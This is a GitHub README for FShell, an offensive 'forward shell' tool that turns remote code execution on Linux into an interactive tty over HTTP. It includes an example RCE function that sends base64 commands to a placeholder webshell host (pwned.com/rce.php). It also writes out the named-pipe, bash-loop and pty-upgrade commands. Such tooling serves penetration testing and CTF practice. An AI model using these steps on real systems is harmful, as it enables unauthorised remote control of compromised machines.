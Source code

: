
# **FShell**

## What is that
FShell is my own Forward Shell designed to get an interactive tty using remote code execution through a stageless protocol (eg HTTP).


## Requirements
### On attacker machine

Python3 & lib:
- requests
- termcolor

### On the targeted remote system
It is designed to target Linux OS only and require basic commands/tools on the remote system:
- bash
- mkfifo
- cat
- tail
- ps
- grep
- awk
- kill
- python (and pty module)

## Usage
You can change the ```WRITABLE_FOLDER``` variable if /tmp is not available or if you have something better (prefer /dev/shm if available)

You **must** redefine ```execute``` function to perform your remote code execution:

```python3
def execute(cmd, verbose=False, timeout=None)
    """
    :cmd      Raw shell command to execute on the remote system
    :timetout MANDATORY /!\ Used to kill blocking exec loop (used in named pipe creation) in case you can't, put named pipe creation in separated thread
    :verbose  print full cmd execute on the remote system (Debug mode)
    """
    # Put your RCE code here
    r = requests.get('http://pwned.com/rce.php?cmd=%s' % (b64encode(cmd)), timeout=timeout)
    return r.text.strip() # You can apply formating if the output is not only the output of command
```
### Demo

![FShell Demo](https://github.com/Hypnoze57/FShell/blob/master/demo.gif)


## How it is working
The concepts behind this forward shell are pretty simple.

First you need to create a named pipe on the remote system, it will be used to send command to our tty <br>
```mkfifo /tmp/input```.

Then, create a bash loop that read named pipe content, send it to bash and send the stdin & stderr to output file. <br>
```tail -f /tmp/input | /bin/bash -i > /tmp/output 2>&1 ```

[Reading named pipe] -> [Execute named pipe content] -> [Send stdin/stderr into output file] -> [Go to reading named pipe because of '-f' tail option]

Next part is to start a python thread that performing ```cat /tmp/output``` regularly in order to get output of commands. <br/>
If the thread find output, it will clear file content using ```echo '' > /tmp/output```<br/>
<br>*Tips: In order to avoid error logging of an non-existing file, we execute 'id' command before starting the 'GetOutput' thread to create the output file before reading it.*

One of the last step is to get user input from our python script and sent it in the named pipe using that kind of command: <br>```echo USERCMD > /tmp/input```

**Final trick**
So, using this we get back a remote interactive shell but some command should not work because we have not a 'tty'.
The 'upgrade_shell' command perform a ```python -c 'import pty;pty.spawn("/bin/bash")'``` (and some export and aliases) to spawn a real tty by the current process (used in named pipe loop)


# Thanks

Thanks to [@ippsec](https://twitter.com/ippsec), I wasn't knowing that something like this was possible before watching his videos !

Hope you enjoy it!
